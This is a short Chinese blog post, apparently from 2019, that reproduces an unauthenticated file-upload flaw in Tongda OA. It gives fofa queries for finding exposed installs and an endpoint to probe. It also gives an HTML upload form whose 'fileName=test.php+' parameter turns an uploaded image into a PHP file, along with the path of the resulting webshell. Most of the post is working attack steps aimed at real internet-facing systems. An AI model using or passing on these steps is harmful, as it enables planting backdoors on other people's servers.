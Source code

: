 ﻿---
layout: post
title: 漏洞复现：通达oa文件上传
date: 2019-10-06
categories: blog
tags: [漏洞复现，通达oa]
description: 漏洞复现：通达oa
---

#### 一、目标
fofa搜索
- `title="网络智能办公管理系统"`
- `app="通达OA"`

- 测试是否存在上传漏洞
访问`[ip地址:端口]/general/vmeet/wbUpload.php`
响应200，则可能存在漏洞
![](https://upload-images.jianshu.io/upload_images/15634342-e6e853aa9618806b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 在本地创建上传脚本为test.html，打开test.html上传后门

\<form enctype="multipart/form-data" action="ip+端口/general/vmeet/wbUpload.php?fileName=test.php+" method="post">

\<input type="file" name="Filedata" size="50"><br>

\<input type="submit" value="Upload">

\</form>

- 以ma.jpg形式上传，上传后自动帮你重命名为test.php，真是神奇，大概率存在其他洞洞
- 上传成功后webshell路径为
`ip+端口/general/vmeet/wbUpload/test.php`













